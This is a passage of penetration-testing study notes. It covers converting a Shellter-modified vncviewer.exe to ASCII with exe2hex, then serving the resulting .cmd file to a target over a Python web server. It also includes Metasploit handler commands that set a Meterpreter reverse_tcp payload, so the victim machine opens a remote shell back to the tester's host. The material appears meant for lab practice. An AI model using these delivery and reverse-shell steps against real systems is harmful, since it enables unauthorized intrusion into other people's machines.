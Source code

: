 ### 4.1 Encoding Executable with exe2hex

Exe2hex is a encoder which comes with Kali that allows for conversions from window executable to ASCII which when ran on a victim will convert back into an executable, this method of encoding isn't an effective way to stay stealthy.
1. Use `/usr/bin/exe2hex -x vncviewer.exe` to convert the `vncviewer.exe` encoded file from [[Chapter-7-Understanding-Network-Penetration-Testing#2.2 Using Shellter to reduce detection]] 

![Exe2hex-vncviewer](Exe2hex-vncviewer.png)

2. Setup a Metasploit listener with the following commands:
```bash
sudo msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 exploit(multi/handler) > set LHOST 172.30.1.22
msf6 exploit(multi/handler) > exploit
```
3. Open a python web server with `python3 -m http.server 8080` and navigate to the address using the targets client and download the `vncviewer.cmd` file from the exe2hex encoding

![Download-vnc-python-server](Download-vnc-python-server.png)

